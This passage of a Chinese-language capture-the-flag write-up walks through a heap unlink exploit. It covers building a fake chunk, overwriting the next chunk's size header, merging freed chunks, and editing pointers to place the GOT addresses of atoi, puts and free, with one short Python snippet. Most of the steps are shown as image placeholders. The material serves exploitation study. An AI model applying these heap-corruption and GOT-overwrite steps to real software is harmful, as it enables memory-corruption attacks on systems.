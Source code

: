 首选构造的fake_chunk如下

![upload successful](/images/pasted-207.png)

覆盖下一个堆块的size头后，如下

![upload successful](/images/pasted-208.png)

free之后，2号和3号合并。再edit 2号块，实际上就是在edit  ptr - 0x18的位置处的值。

`edit(2,0x10,'AAA')`


![upload successful](/images/pasted-209.png)


```python
py1 = ''
py1 += p64(0) + p64(atoi_got) + p64(puts_got) + p64(free_got)
edit(2,len(py1),py1)
```

![upload successful](/images/pasted-210.png)
